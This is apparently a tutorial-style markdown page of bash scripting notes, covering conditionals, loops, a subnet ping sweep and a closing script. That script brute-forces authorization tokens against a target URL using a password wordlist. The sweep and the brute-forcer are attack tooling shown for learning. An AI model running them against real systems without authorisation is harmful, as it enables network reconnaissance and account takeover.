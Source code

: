 # Scripts
# Basic Commands
Refs :
* <https://www.youtube.com/watch?v=LTuuMtQR1uQ&list=PLBf0hzazHTGMJzHon4YXGscxUvsFpxrZT
>
## If-else
```bash
#!/bin/bash

echo "Enter your username : "
read NAME

if [ "$NAME" = "Eliot" ];
then
  echo "Welcome back Eliot"
else
  echo "Please register"
fi
```
output
```sh
$ ./testscript.sh 
Enter your username : 
Eliot
Welcome back Eliot
```
## Conditional Expressions
We can make use of conditional expressions in the bash scripting. In order to know the available expressions use
```sh
$ help test
test: test [expr]
    Evaluate conditional expression.
    
    Exits with a status of 0 (true) or 1 (false) depending on
    the evaluation of EXPR.
    
    -d FILE        True if file is a directory.
    -e FILE        True if file exists.
```
### Use of conditional expression in if-else
```bash
#!/bin/bash
  
if [ -e /etc/shadow ];
then
  echo "File exists"
else
  echo "Missing..."
fi
```
## for loops
```bash
#!/bin/bash

for NAME in $(cat names.txt); do
  echo "Name is : $NAME"
done
```
output
```sh
$ ./testscript.sh 
Name is : ram
Name is : shayam
Name is : sita
```

```bash
#!/bin/bash

echo "Please enter the subnet : "
read SUBNET

for IP in $(seq 1 254); do
  ping -c 1 $SUBNET.$IP
done
```
output
```sh
$ ./testscript.sh
Please enter the subnet : 
192.234.246
PING 192.234.246.1 (192.234.246.1) 56(84) bytes of data.
64 bytes from 192.234.246.1: icmp_seq=1 ttl=64 time=0.079 ms

--- 192.234.246.1 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 0.079/0.079/0.079/0.000 ms
PING 192.234.246.2 (192.234.246.2) 56(84) bytes of data.
64 bytes from 192.234.246.2: icmp_seq=1 ttl=64 time=0.022 ms
```

# Useful Scripts
## Authorization Token
Bash script to read different tokens from a file and pass them to `curl` command to find out the valid token for authorization
```bash
#!/bin/bash
while read token; do
content=$(curl -s -H 'Authorization: Token '"$token" $1)
if echo "$content" | grep -qi "unauth"; then
continue
else
echo "Found token : $token"
fi
done <$2
```
output
```sh
./brute.sh 192.186.248.3 wordlists/100-common-passwords.txt
```

